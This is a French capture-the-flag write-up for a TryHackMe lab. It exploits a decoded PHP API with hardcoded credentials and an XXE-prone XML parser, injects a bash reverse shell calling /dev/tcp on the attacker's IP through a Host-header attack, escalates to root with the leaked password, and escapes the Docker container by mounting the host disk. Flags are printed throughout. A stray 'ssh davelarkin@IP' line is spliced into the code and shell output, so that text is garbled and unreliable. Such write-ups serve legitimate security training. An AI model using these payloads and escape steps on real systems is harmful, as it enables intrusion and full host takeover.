tim@kali:~/Bureau/tryhackme/write-up$ echo 'PD9waHAKCgpuYW1lc3BhY2UgQ29udHJvbGxlcjsKCgpjbGFzcyBBcGkKewoKICAgIHB1YmxpYyBzdGF0aWMgZnVuY3Rpb24gaG9tZSgpewogICAgICAgIFxPdXRwdXQ6OnN1Y2Nlc3MoYXJyYXkoCiAgICAgICAgICAgICduYW1lJyAgICA9PiAgJ1NlcnZlciBNYW5hZ2VyJywKICAgICAgICAgICAgJ3N0YWNrJyAgICAgPT4gIGFycmF5KAogICAgICAgICAgICAgICAgJ25naW54JyA9PiAgJF9TRVJWRVJbIlNFUlZFUl9TT0ZUV0FSRSJdLAogICAgICAgICAgICAgICAgJ3BocCcgICA9PiAgcGhwdmVyc2lvbigpLAogICAgICAgICAgICAgICAgJ215c3FsJyA9PiAgYXJyYXkoCiAgICAgICAgICAgICAgICAgICAgJ3ZlcnNpb24nICAgPT4gICc1LjYnLAogICAgICAgICAgICAgICAgICAgICdkYXRhYmFzZScgID0+ICAnc2VydmVybWFuYWdlcicKICAgICAgICAgICAgICAgICkKICAgICAgICAgICAgKQogICAgICAgICkpOwogICAgfQoKICAgIHB1YmxpYyBzdGF0aWMgZnVuY3Rpb24gbG9naW4oKXsKICAgICAgICBpZiggaXNzZXQoJF9QT1NUWyJ1c2VybmFtZSJdLCRfUE9TVFsicGFzc3dvcmQiXSkgKXsKICAgICAgICAgICAgaWYoICRfUE9TVFsidXNlcm5hbWUiXSA9PT0gJ2FkbWluJyAmJiAkX1BPU1RbInBhc3N3b3JkIl0gPT09ICduaWNlV29ya0hhY2tlcm00bicgKXsKICAgICAgICAgICAgICAgIFxPdXRwdXQ6OnN1Y2Nlc3MoYXJyYXkoCiAgICAgICAgICAgICAgICAgICAgJ2xvZ2luJyA9PiB0cnVlLAogICAgICAgICAgICAgICAgICAgICdlcnJvcicgPT4gJycsCiAgICAgICAgICAgICAgICAgICAgJ3Rva2VuJyA9PiAgJzFmN2Y5N2MzYTdhYTRhNzUxOTQ3NjhiNThhZDhhNzFkJwogICAgICAgICAgICAgICAgKSk7CiAgICAgICAgICAgIH1lbHNlIHsKICAgICAgICAgICAgICAgIFxPdXRwdXQ6OnN1Y2Nlc3MoYXJyYXkoCiAgICAgICAgICAgICAgICAgICAgJ2xvZ2luJyA9PiBmYWxzZSwKICAgICAgICAgICAgICAgICAgICAnZXJyb3InID0+ICdJbnZhbGlkIHVzZXJuYW1lIC8gcGFzc3dvcmQgY29tYmluYXRpb24nCiAgICAgICAgICAgICAgICApKTsKICAgICAgICAgICAgfQogICAgICAgIH1lbHNlewogICAgICAgICAgICBcT3V0cHV0OjpzdWNjZXNzKGFycmF5KAogICAgICAgICAgICAgICAgJ2xvZ2luJyA9PiAgZmFsc2UsCiAgICAgICAgICAgICAgICAnZXJyb3InID0+ICAnTWlzc2luZyByZXF1aXJlZCBwYXJhbWV0ZXJzJwogICAgICAgICAgICApKTsKICAgICAgICB9CiAgICB9CgogICAgcHVibGljIHN0YXRpYyBmdW5jdGlvbiBzZXNzaW9uKCl7CiAgICAgICAgXE91dHB1dDo6c3VjY2VzcyhhcnJheSgKICAgICAgICAgICAgJ2FjdGl2ZV9zZXNzaW9ucycgICA9PiAgYXJyYXkoCiAgICAgICAgICAgICAgICBhcnJheSgKICAgICAgICAgICAgICAgICAgICAnaWQnICAgPT4gIDEsCiAgICAgICAgICAgICAgICAgICAgJ3VzZXJuYW1lJyAgPT4gICdhZG1pbicsCiAgICAgICAgICAgICAgICAgICAgJ2hhc2gnICAgICAgPT4gICcxYjQyMzdmNDc2ODI2OTg2ZGE2MzAyMmE3NmMzNWJiMScKICAgICAgICAgICAgICAgICkKICAgICAgICAgICAgKQogICAgICAgICkpOwogICAgfQoKICAgIHB1YmxpYyBzdGF0aWMgZnVuY3Rpb24gdXNlcigpewogICAgICAgIGlmKCBpc3NldCgkX0dFVFsieG1sIl0pICl7CiAgICAgICAgICAgICR4bWxmaWxlID0gZmlsZV9nZXRfY29udGVudHMoJ3BocDovL2lucHV0Jyk7CiAgICAgICAgICAgICRkb20gPSBuZXcgXERPTURvY3VtZW50KCk7CiAgICAgICAgICAgIEAkZG9tLT5sb2FkWE1MKCR4bWxmaWxlLCBMSUJYTUxfTk9FTlQgfCBMSUJYTUxfRFRETE9BRCk7CiAgICAgICAgICAgIEAkaW5mbyA9IHNpbXBsZXhtbF9pbXBvcnRfZG9tKCRkb20pOwogICAgICAgICAgICBpZiggZ2V0dHlwZSgkaW5mbykgPT0gJ05VTEwnICl7CiAgICAgICAgICAgICAgICBcT3V0cHV0OjplcnJvcihhcnJheSgKICAgICAgICAgICAgICAgICAgICAnZXJyb3InID0+ICdZb3UgZG8gbm90IGhhdmUgYWNjZXNzIHRvIHZpZXcgYWxsIHVzZXJzJywKICAgICAgICAgICAgICAgICksNDAxKTsKICAgICAgICAgICAgfWVsc2V7CiAgICAgICAgICAgICAgICAkdXNlcl9pZCA9IGZhbHNlOwogICAgICAgICAgICAgICAgZm9yZWFjaCggJGluZm8gYXMgJGs9PiR2ICl7CiAgICAgICAgICAgICAgICAgICAgaWYoICRrID09ICdpZCcgKXsKICAgICAgICAgICAgICAgICAgICAgICAgJHVzZXJfaWQgPSAkdjsKICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICBpZiAoICR1c2VyX2lkICkgewogICAgICAgICAgICAgICAgICAgIFxPdXRwdXQ6OmVycm9yKGFycmF5KAogICAgICAgICAgICAgICAgICAgICAgICAnZXJyb3InID0+ICdZb3UgZG8gbm90IGhhdmUgYWNjZXNzIHRvIHZpZXcgdXNlciBpZDogJyAuJHVzZXJfaWQsCiAgICAgICAgICAgICAgICAgICAgKSw0MDEpOwogICAgICAgICAgICAgICAgfSBlbHNlIHsKICAgICAgICAgICAgICAgICAgICBcT3V0cHV0OjplcnJvcihhcnJheSgKICAgICAgICAgICAgICAgICAgICAgICAgJ2Vycm9yJyA9PiAnWW91IGRvIG5vdCBoYXZlIGFjY2VzcyB0byB2aWV3IGFsbCB1c2VycycsCiAgICAgICAgICAgICAgICAgICAgKSw0MDEpOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgfWVsc2UgewogICAgICAgICAgICBpZiAoIGlzc2V0KCRfR0VUWyJpZCJdKSApIHsKICAgICAgICAgICAgICAgIFxPdXRwdXQ6OmVycm9yKGFycmF5KAogICAgICAgICAgICAgICAgICAgICdlcnJvcicgPT4gJ1lvdSBkbyBub3QgaGF2ZSBhY2Nlc3MgdG8gdmlldyB1c2VyIGlkOiAnIC5pbnR2YWwoJF9HRVRbImlkIl0pLAogICAgICAgICAgICAgICAgKSw0MDEpOwogICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgXE91dHB1dDo6ZXJyb3IoYXJyYXkoCiAgICAgICAgICAgICAgICAgICAgJ2Vycm9yJyA9PiAnWW91IGRvIG5vdCBoYXZlIGFjY2VzcyB0byB2aWV3IGFsbCB1c2VycycsCiAgICAgICAgICAgICAgICApLDQwMSk7CiAgICAgICAgICAgIH0KICAgICAgICB9CiAgICB9CgoKfQ==' | base64 -d
<?php


namespace Controller;


class Api
{

    public static function home(){
        \Output::success(array(
            'name'    =>  'Server Manager',
            'stack'     =>  array(
                'nginx' =>  $_SERVER["SERVER_SOFTWARE"],
                'php'   =>  phpversion(),
                'mysql' =>  array(
                    'version'   =>  '5.6',
                    'database'  =>  'servermanager'
                )
            )
        ));
    }

    public static function login(){
        if( isset($_POST["username"],$_POST["password"]) ){
            if( $_POST["username"] === 'admin' && $_POST["password"] === 'niceWorkHackerm4n' ){
                \Output::success(array(
                    'login' => true,
                    'error' => '',
                    'token' =>  '1f7f97c3a7aa4a75194768b58ad8a71d'
                ));
            }else {
                \Output::success(array(
                    'login' => false,
                    'error' => 'Invalid username / password combination'
                ));
            }
        }else{
            \Output::success(array(
                'login' =>  false,
                'error' =>  'Missing required parameters'
            ));
        }
    }

    public static function session(){
        \Output::success(array(
            'active_sessions'   =>  array(
                array(
                    'id'   =>  1,
                    'username'  =>  'admin',
                    'hash'      =>  '1b4237f476826986da63022a76c35bb1'
                )
            )ssh davelarkin@IP -p 2222

    public static function user(){
        if( isset($_GET["xml"]) ){
            $xmlfile = file_get_contents('php://input');
            $dom = new \DOMDocument();
            @$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
            @$info = simplexml_import_dom($dom);
            if( gettype($info) == 'NULL' ){
                \Output::error(array(
                    'error' => 'You do not have access to view all users',
                ),401);
            }else{
                $user_id = false;
                foreach( $info as $k=>$v ){
                    if( $k == 'id' ){
                        $user_id = $v;
                    }
                }
                if ( $user_id ) {
                    \Output::error(array(
                        'error' => 'You do not have access to view user id: ' .$user_id,
                    ),401);
                } else {
                    \Output::error(array(
                        'error' => 'You do not have access to view all users',
                    ),401);
                }ssh davelarkin@IP -p 2222
                \Output::error(array(
                    'error' => 'You do not have access to view all users',
                ),401);
            }
        }
    }

ssh davelarkin@IP -p 2222
On peut se connecte et on obtient un interface pour effectuer des commandes sur la machine cible.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute sur port 1234 pour récupèrer un shell.    

   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.197.238.
Ncat: Connection from 10.10.197.238:57280.
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
www-data@6b364d3940e6:/var/www/html/public$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@6b364d3940e6:/var/www/html/public$ cd /home
cd /home
www-data@6b364d3940e6:/home$ ls     	
ls 
admin
www-data@6b364d3940e6:/home$ cd admin 
cd adminssh davelarkin@IP -p 2222
www-data@6b364d3940e6:/home/admin$ ls -al
ls -al
total 40
drwxr-xr-x 1 admin admin 4096 Feb 22  2021 .
drwxr-xr-x 1 root  root  4096 Feb 22  2021 ..
-rw------- 1 admin admin   11 Feb 22  2021 .bash_history
-rw-r--r-- 1 admin admin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 admin admin   33 Feb 22  2021 .bash_profile
-rw-r--r-- 1 admin admin 3804 Feb 22  2021 .bashrc
-rwxr-xr-x 1 root  admin  807 Feb 25  2020 .profile
drwxr-xr-x 1 admin admin 4096 Feb 22  2021 .ssh
drwxr-xr-x 1 admin admin 4096 Feb 22  2021 bin

```

Avec un reverse shell on obtient un shell.    
On remarque un non d'utilisateur admin.  
Mais on est pas sous l'utilateur admin.   

```bash
www-data@6b364d3940e6:/bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@6b364d3940e6:/bin$ su admin
su admin
bash: su: command not found
www-data@6b364d3940e6:/bin$ 
ssh admin@localhost sh 
admin@localhost's password: niceWorkHackerm4n

id
id
uid=1000(admin) gid=1000(admin) groups=1000(admin),27(sudo)
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@6b364d3940e6:~$ sudo -l
sudo -l
sudo -l
bash: sudo: command not found
admin@6b364d3940e6:~$ ls
ls
ls
bash: ls: command not found
admin@6b364d3940e6:~$ echo $PATH
echo $PATH
echo $PATH
/home/admin/bin
```

On des problèmes avec le terminal, on n'a pas utilisé le bon terminal.    

```bash
www-data@6b364d3940e6:/$ ssh admin@localhost -t "sudo bash"
ssh admin@localhost -t "sudo bash"
admin@localhost's password: niceWorkHackerm4n

[sudo] password for admin: niceWorkHackerm4n

root@6b364d3940e6:/home/admin# id
id
uid=0(root) gid=0(root) groups=0(root)
root@6b364d3940e6:/home/admin# ls
```

On se connection avec un bash avec les droits root ça fonctionne.   

```bash
root@6b364d3940e6:/home/admin# cd ~
cd ~
root@6b364d3940e6:~# ls
ls
containter1_flag.txt
root@6b364d3940e6:~# cat containter1_flag.txt
cat containter1_flag.txt
THM{56d1b42929223a63f274aa8e7b02dc01}
```

On le fichier containter1_flag.txt et on obtient le flag qui est : THM{56d1b42929223a63f274aa8e7b02dc01}   


Sur la page principale sur le port 81, il y a pas grand chose.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://h1-hard.thm:81/ -w /usr/share/dirb/wordlists/common.txt -q
/access_log           (Status: 200) [Size: 8461]
/images               (Status: 301) [Size: 178] [--> http://h1-hard.thm/images/]
```

On énumère le site avec gobuster on voit un lien qui est access_log qui semble interéssant.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://h1-hard.thm:81/access_log -s | head -20
1612629699#/s3cr3t_area#Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0

1633769741#/#Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
1633769747#/#Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
1633769748#/#Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
1633769801#/#Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
1633770031#/#gobuster/3.1.0
1633770031#/7067bf86-7824-45be-94d5-612d09d156fd#gobuster/3.1.0
1633770031#/.bash_history#gobuster/3.1.0
1633770031#/.bashrc#gobuster/3.1.0
1633770031#/.cache#gobuster/3.1.0
1633770031#/.cvsignore#gobuster/3.1.0
1633770031#/.cvs#gobuster/3.1.0
1633770031#/.forward#gobuster/3.1.0
1633770031#/.config#gobuster/3.1.0
1633770031#/.history#gobuster/3.1.0
1633770031#/.git/HEAD#gobuster/3.1.0
1633770031#/.hta#gobuster/3.1.0
1633770031#/.htaccess#gobuster/3.1.0
1633770031#/.htpasswd#gobuster/3.1.0
```

Dans access_log on remarque les connexions faite avec gobuster.   
On voit un lien /s3cr3t_area qui est une impasse.   

**What is the flag for container2?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://h1-hard.thm:81/access_log -s | grep api
1633770033#/api#gobuster/3.1.0
1633770033#/apis#gobuster/3.1.0
1633770035#/clientapi#gobuster/3.1.0
1633770039#/isapi#gobuster/3.1.0
1633770040#/json-api#gobuster/3.1.0
1633770043#/pw_api#gobuster/3.1.0
1633771095#/api/#Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
1633771101#/api/product/1#Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
1633771210#/api/product#Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
1633771226#/api/#Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
1633771232#/api/product#Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
1633771262#/api/product/1#Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
```

Dans le log on voit un lien api/product/1.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 81
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::81
Ncat: Listening on 0.0.0.0:81
```


```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 81
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::81
Ncat: Listening on 0.0.0.0:81
Ncat: Connection from 10.10.78.39.
Ncat: Connection from 10.10.78.39:53650.
GET /api/product/1 HTTP/1.1
Host: 10.9.228.66:81
User-Agent: curl/7.68.0
Accept: */*
```

Dans le lien product/1 on arrive a faire une header attack.  
En mettant notre ip dans host on récupère une requète.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo -n 'bash -i >& /dev/tcp/10.9.228.66/1234 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjIyOC42Ni8xMjM0IDA+JjE=
```

  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.78.39.
Ncat: Connection from 10.10.78.39:55968.
bash: cannot set terminal process group (29): Inappropriate ioctl for device
bash: no job control in this shell
www-data@c418851a6a30:~/html/public$ 
```

On fabrique un reverse shell et on l'injecte avec burp et on obtient un shell.   

```bash
www-data@c418851a6a30:~$ grep -R THM
grep -R THM
container2_flag.txt:THM{882128b1c0051c8351e79d28d5c93167}
```

On recheche le flag et on le trouve.   
La flag est : THM{882128b1c0051c8351e79d28d5c93167}     

**What is the flag for container3?**

pour le container3 je n'a pas trouvé la vrai méthode, mais une foit root on peut avoir le flag voire à la fin du write up.


```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://h1-hard.thm:82/ -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/feed                 (Status: 200) [Size: 21] 
/images               (Status: 301) [Size: 314] [--> http://h1-hard.thm:82/images/]
/search               (Status: 200) [Size: 2550]                                   
/server-status        (Status: 403) [Size: 276]                                    
/t                    (Status: 301) [Size: 0] [--> /t/]                            
/view                 (Status: 200) [Size: 24]          
```


**What is the root flag?**

On va faire un evasion de docker on retourne au shell sur le site sur le port 81.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.78.39.
Ncat: Connection from 10.10.78.39:45030.
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
www-data@6b364d3940e6:/var/www/html/public$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<lic$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@6b364d3940e6:/var/www/html/public$ ssh admin@localhost -t "sudo bash"
<www/html/public$ ssh admin@localhost -t "sudo bash"
Pseudo-terminal will not be allocated because stdin is not a terminal.
Permission denied, please try again.
Permission denied, please try again.
admin@localhost: Permission denied (publickey,password).
www-data@6b364d3940e6:/var/www/html/public$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<lic$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@6b364d3940e6:/var/www/html/public$ ssh admin@localhost -t "sudo bash"
<www/html/public$ ssh admin@localhost -t "sudo bash"
admin@localhost's password: niceWorkHackerm4n

[sudo] password for admin: niceWorkHackerm4n
root@6b364d3940e6:/home/admin#

```

On se connect et on obtient une autre connexion avec les droits root.   

```bash
root@6b364d3940e6:/home/admin# fdisk -l
fdisk -l
...
Disk /dev/xvda: 8 GiB, 8589934592 bytes, 16777216 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0xda63a61e
...
```

En listant les partitions on voit une partitions principale.  

```bash
root@6b364d3940e6:/home/admin# mkdir -p /mnt/compromise
mkdir -p /mnt/compromise

root@6b364d3940e6:/home/admin# mount /dev/xvda1 /mnt/compromise
mount /dev/xvda1 /mnt/compromise

cd /mnt
root@6b364d3940e6:/mnt# ls
ls
compromise
root@6b364d3940e6:/mnt# cd compromise
cd compromise
root@6b364d3940e6:/mnt/compromise# ls
ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  srv       sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   snap  swapfile  tmp  var
root@6b364d3940e6:/mnt/compromise# cd root
cd root
root@6b364d3940e6:/mnt/compromise/root# ls
ls
king.txt  root.txt  snap
root@6b364d3940e6:/mnt/compromise/root# cat king.txt
cat king.txt
root@6b364d3940e6:/mnt/compromise/root# cat root.txt
cat root.txt
THM{7530de730c63fa076aa9e2bb05a4b307}

```

Dans le répertoire /mnt/compromise/root/root.txt on trouve le flag.    
Le flag est : THM{7530de730c63fa076aa9e2bb05a4b307}   

Pour le conteneur 3.  

Toujours dans mnt/compromise. 

```bash
root@6b364d3940e6:/mnt/compromise/var/lib/docker/overlay2# cd /mnt/compromise/bin
<ise/var/lib/docker/overlay2# cd /mnt/compromise/bin       
root@6b364d3940e6:/mnt/compromise/bin# ./docker image ls
./docker image ls
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
c4           latest    909a74e4f991   7 months ago   535MB
c3           latest    0a2e80fcc374   7 months ago   932MB
c2           latest    98df6bc87997   7 months ago   346MB
c1           latest    cfb993e4a3c6   7 months ago   769MB
ubuntu       20.04     f63181f19b2f   8 months ago   72.9MB
```

On liste les images dockers.    
L'image qui nous interesse est la c3.  

```bash
root@6b364d3940e6:/mnt/compromise/bin# ./docker exec -it c3 bash
./docker exec -it c3 bash
root@498d22ea6efc:/var/www/html# ls
ls
Autoload.php  View.php     my_photo_uploads  supervisord.log
Output.php    controllers  public            supervisord.pid
Route.php     models       routes            view
root@498d22ea6efc:/var/www/html# cd /
cd /
root@498d22ea6efc:/# ls
ls
bin   dev  home  lib32  libx32  mnt  proc  run   srv  tmp  var
boot  etc  lib   lib64  media   opt  root  sbin  sys  usr
root@498d22ea6efc:/# cd home
cd home
root@498d22ea6efc:/home# ls
ls
admin  container3_flag.txt
root@498d22ea6efc:/home# cat container3_flag.txt
cat container3_flag.txt
THM{9b3517545af531152f0c4c1b2404d1d1}
```

On exécute l'image c3 avec un bash.  
On lit le drapeau qui dans home.   
Le falg est : THM{9b3517545af531152f0c4c1b2404d1d1}    